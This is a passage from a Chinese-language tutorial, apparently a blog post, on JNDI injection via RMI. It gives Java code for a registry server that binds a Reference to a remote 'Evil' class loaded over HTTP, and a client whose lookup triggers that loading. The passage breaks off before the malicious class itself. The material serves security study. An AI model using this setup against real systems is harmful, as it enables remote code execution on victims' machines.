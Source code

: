 - `className` ： 远程加载时所使用的类名
- `classFactory `： 加载的`class`中需要实例化类的名称
- `classFactoryLocation` ： 提供`classes`数据的地址可以是`file/ftp/http`协议

##### Server端

```java
package JNDI.server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception{
        //设置RMI远程对象通信的IP地址，这里如果在远程vps上的话需要设置
        System.setProperty("java.rmi.server.hostname","127.0.0.1");
        //启动一个注册中心的服务Rmi Registry
        Registry registry = LocateRegistry.createRegistry(1099);
        //构造一个Reference对象，Evil为需要实例化的类名，http://127.0.0.1/为远程查找地址
        Reference feng = new Reference("1","Evil","http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(feng);
        //注册中心绑定feng这个名字绑定到referenceWrapper这个对象，实际上就是往Hash表里添加kv
        registry.bind("feng",referenceWrapper);
    }
}
```

简单概括下上述代码：起一个Registry注册中心，构造一个reference对象绑定到对应的注册中心，并命名为feng；

##### Client端

```java
package JNDI.client;

import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://127.0.0.1:1099/feng";
        //新建一个上下文对象
        Context context = new InitialContext();
        //从url获取具体的内容
        context.lookup(url);
    }
}
```

构造reference对象的时候传入的三个变量指向一个远程的恶意类地址以及其类名，所以这里我们在起服务之前要先准备好对应恶意类：

恶意类：恶意类在准备的时候，这里我们可以将恶意的代码放到两个部分，初始代码里面，或者构造方法里面都可以，最终都会被执行，只不过是先后顺序
